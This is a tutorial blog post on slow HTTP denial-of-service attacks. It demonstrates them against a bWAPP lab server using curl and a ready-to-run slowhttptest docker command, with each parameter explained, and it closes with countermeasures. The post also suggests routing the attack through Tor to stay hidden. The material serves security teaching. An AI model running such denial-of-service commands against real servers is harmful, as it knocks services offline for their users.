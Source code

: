 :slug: asymmetric-dos-slow-http-attack/
:date: 2018-11-15
:category: attacks
:subtitle: The story of David and Goliath
:tags: security, vulnerability
:image: cover.png
:alt: greek statue with small angels.
:description:  After reading this post, you'll know about asymmetric attacks and denial of service attacks. You'll know how a slow http attack works, how to inspect http requests and responses, and you'll see how to perform an asymmetric denial of service against bWAPP with slowhttptest!
:keywords: DoS, Vulnerability, Slowhttptest, Slow Body, HTTP, Asymmetric attacks.
:author: Kevin Amado
:writer: kamadoatfluid
:name: Kevin Amado
:about1: Civil Engineer
:about2: "An algorithm must be seen to be believed" Donald Knuth

= Asymmetric DoS, slow HTTP attack

Have you ever heard the story of David and Goliath?
David, a young boy, goes out to confront a giant, named Goliath.
David is the underdog in this fight and is expected to lose.
But, everyone underestimates David and his prowess with a slingshot.
When David ultimately kills Goliath,
he demonstrates that even a little guy can triumph
over the biggest and strongest of enemies.

Fine! Today we are going to talk about unequal scenarios.
Furthermore, we are going to battle one ourselves.

== Let's get started

So, let’s imagine, for a moment,
that all you need to kill the giant,
that everyone fears, is a little slingshot,
not a big mace, nor the strength of a thousand men.
Sound crazy? Well, it is. But it’s possible.

A cyber attack is considered "asymmetric"
in the sense that you only need a few resources,
in this case, a laptop,
in order to cause a considerable amount of damage,
malfunction or failure in the server.
A very real case of David vs. Goliath.

If we push hard enough, the server is going to stop providing the service to
other users, in other words, we will cause a _Denial of Service_ (DoS).

== How does a slow http attack work?

Imagine a line at the local fast food restaurant.
A customer at the head of the line
can't decide if he wants a burger or a hot-dog.
People behind him in line are getting mad;
they aren't getting their food
because he is holding up the whole line.

If you look at it in more detail,
all this customer needed to do was to "not know what to order".
His indecision basically caused a denial of service
for every other person waiting behind him at the counter, i.e. A DoS.

Now imagine the same line,
but the customer at the counter knows what he wants to order,
and he's ordering a thousand burgers and a hundred hot-dogs.
Again, this means everyone behind him in line
will have to wait while his order is filled.
The restaurant can take no more orders until his is complete.

The HTTP protocol works similarly, it requires requests to be fully received by
the final user before they are processed.

Two things can happen, if a request is not completed,
the server can either wait
or set the request as timed out after some few seconds.
However, if you let the request complete,
but at a slow rate, then the server will keep the resource busy
waiting for the end of the data.

What would happen if the customer orders a thousand burgers
and a hundred hot-dogs, but he can't decide
which sauces and drinks to order with them?
And, to make matters worse, he seems to be intentionally indecisive
and he's speaking very slowly.

The answer:

[button]#link:https://cwe.mitre.org/data/definitions/400.html[D.o.S.]#

This is exactly the idea behind a slow HTTP attack.

A web server keeps its active connections
in a relatively small connection pool.
We will try to tie all the connections in this pool
to slow requests, making the server reject other users.

== Let's do an HTTP request

First, let’s run a
[button]#link:http://www.itsecgames.com/[bWAPP]#
server on ip _192.168.56.101_.

.BWAPP server
image::bwapp-running.png[bwapp-running]

For now, let’s assume that we are at:

----
192.168.56.101/bWAPP/xss_post.php.
----

And we entered in the form:

.XSS page and input
image::xss-login-form.png[xss-login-form]

Once we access a page,
the browser is going to ask the server for some resources
(images, texts, +HTML+ pages, +CSS+ and +JavaScript+ files, etc)
and we can see these requests and responses
from the command line using +curl+
(or Google Chrome, or Firefox, or +BURP+).

The process using _curl_ is:

[source, bash, linenums]
----
$ # login to the server so we can see as a logged user the page we want
$ curl -L -c post_login_cookie 'http://192.168.56.101/bWAPP/login.php' \
--data 'login=bee&password=bug&security_level=0&form=submit'
$ # result: a file is saved with name 'post_login_cookie'
$
$ # submit a post request with the data we want on the field
$ curl -L -b post_login_cookie -v \
-d "firstname=test1&lastname=test2&form=submit" \
http://192.168.56.101/bWAPP/xss_post.php
$ # output is displayed to console, we'll see it in a moment
----

As mentioned before,
every single resource is going to have a request and a corresponding response.
In other words, we are asking the server for the _xss_post.php_ resource with
the parameters:

.POST Parameters
[source, bash, linenums]
----
firstname=test1&lastname=test2&form=submit
----

Since we want to se an HTML page, _curl_ asks for it:

.curl, server request output
[source, bash, linenums]
----
*   Trying 192.168.56.101...
* TCP_NODELAY set
* Connected to 192.168.56.101 (192.168.56.101) port 80 (#0)
> POST /bWAPP/xss_post.php HTTP/1.1
> Host: 192.168.56.101
> User-Agent: curl/7.58.0
> Accept: */*
> Cookie: PHPSESSID=5fvb1fr053gmc2f91ooicvf1f5; security_level=0
> Content-Length: 41
> Content-Type: application/x-www-form-urlencoded
----

And the server replies with:

.curl, server response output
[source, bash, linenums]
----
* upload completely sent off: 41 out of 41 bytes
< HTTP/1.1 200 OK
< Date: Thu, 15 Nov 2018 21:31:32 GMT
< Server: Apache/2.2.14 (Ubuntu) mod_mono/2.4.3 PHP/5.3.2-1ubuntu4.30 with
Suhosin-Patch proxy_html/3.0.1 mod_python/3.3.1 Python/2.6.5 mod_ssl/2.2.14
OpenSSL/0.9.8k Phusion_Passenger/4.0.38 mod_perl/2.0.4 Perl/v5.10.1
< X-Powered-By: PHP/5.3.2-1ubuntu4.30
< Expires: Thu, 19 Nov 1981 08:52:00 GMT
< Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
< Pragma: no-cache
< Vary: Accept-Encoding
< Content-Length: 11291
< Content-Type: text/html
----

At this point,
nothing stops us from sending follow up headers with random values:

.POST Parameters
[source, bash, linenums]
----
firstname=FASLDKJFEI&lastname=test2&form=submit
----

wait some seconds...

.POST Parameters
[source, bash, linenums]
----
firstname=IEU182KSZ&lastname=test2&form=submit
----

And nothing stops us from simulating a slow connection
on each one of these requests,
so the server is going to have to wait
until we receive the full resource.

Why not do a thousand requests
until every single connection available on the server pool
is busy with us?

To do this, we are going to use a tool.

== Using slowhttptest

First, let's pull the
link:https://hub.docker.com/r/frapsoft/slowhttptest/[slowhttptest docker image]
from the docker hub.

.Bash command
[source, bash, linenums]
----
$ docker pull frapsoft/slowhttptest
----

And write the following command:

.Bash command
[source, bash, linenums]
----
$ sudo docker run --name DoSBWAPP --rm  frapsoft/slowhttptest \
-c 65539 -B -i 10 -l 300 -r 10000 -s 16384 -t firstname \
-u "http://192.168.56.101/bWAPP/xss_get.php" -x 10 -p 300
----

The parameters you see are described below:

.Slowhttptest description
|====
|-c 65539| use 65539 connections
|-B|specify to slow down the http in message body mode
|-i 10|seconds of interval between follow up data, per connection
|-l 300| duration of the test in seconds
|-p 300|timeout in seconds to wait for HTTP response on probe connection,
after which server is considered inaccessible
|-r 10000| connections per second
|-s 16384|value of Content-Length header
|-x 10|max length of follow up data in bytes
|-t firstname|add ?firstname=(-x 10bytes) to the target url
|-u URL|target URL
|====

While the attack is running a user that tries to access the service is going
to see:

.BWAPP is trying to connect without success
image::bwapp-while-attacking.png[bwapp-while-attacking]

If the attack is long enough, it is going to get timed out:

.BWAPP gets timed-out
image::bwapp-timed-out.png[bwapp-timed-out]

Once the attack is finished everything returns to a normal state:

.BWAPP working normally after attack
image::bwapp-attack-finished.png[bwapp-attack-finished]

Since we only need a few resources (the internet and a laptop)
we can even do it on a low-bandwidth connection.
Moreover, since we don't need too much bandwidth,
we can pass everything through a proxy
in the tor network and hide ourselves.

== Sounds scary, how do I protect myself?

Counter-measures depend mainly on your service.
Some useful mechanisms to prevent this kind of attacks are:

* Limit the number of resources an unauthorized user can expend.
* Set the header and message body to a maximum reasonable length.
* Define a minimum incoming data rate, and drop those that are slower.
* Set an absolute connection timeout.
* Use a Web Application Firewall.
* Reject connections with verbs not supported by the URL.

In cases where you need to set minimum and maximum limits,
it's a good idea to use the values from your statistics.
If the value is too short, you may risk dropping legitimate connections;
if it is too long, you won't get any protection from attacks.
Perhaps using a margin ranging
from one to two link:https://en.wikipedia.org/wiki/Normal_distribution#/media/File:Empirical_Rule.PNG[standard deviations]
may help you with this.

== Finally

I really hope that you liked this article.

I wish you a nice week, and will see you in another post!

== References

. [[r1]] Wikipedia (2018).
'Hypertext Transfer Protocol'.
link:https://en.wikipedia.org/wiki/Hypertext_Transfer_Protocol[Wiki].

. [[r2]] Sergey Shekyan (2018).
'Slowhttptest - Instalation and usage'.
link:https://github.com/shekyan/slowhttptest/wiki/InstallationAndUsage[Github wiki].

. [[r3]] Sergey Shekyan (2018).
'Application Layer DoS attack simulator'.
link:https://blog.qualys.com/tag/slow-http-attack[Docker hub].
